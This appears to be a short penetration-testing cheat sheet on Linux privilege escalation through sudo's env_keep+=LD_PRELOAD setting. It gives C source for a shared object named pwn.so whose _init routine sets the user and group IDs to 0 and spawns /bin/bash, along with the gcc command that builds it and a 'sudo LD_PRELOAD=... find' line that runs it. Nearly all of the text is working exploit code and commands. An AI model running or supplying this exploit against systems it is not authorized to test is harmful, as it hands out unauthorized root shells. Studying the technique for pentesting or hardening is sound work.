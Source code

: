 # LD_PRELOAD

## Example

### True positive: 

    env_keep+=LD_PRELOAD

### 1: Check for LD_PRELOAD

### 2: Write a simple C code compiled as a share object file (.so extension)

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
    	unsetenv("LD_PRELOAD");
    	setgid(0);
    	setuid(0);
    	system("/bin/bash");
    }    

### 3: Run the program with sudo privileges and the LD_PRELOAD option pointing to our .so file

### 1) Compilation

    gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles

### 2) Usage: 

    sudo LD_PRELOAD=/home/user/pwn.so find
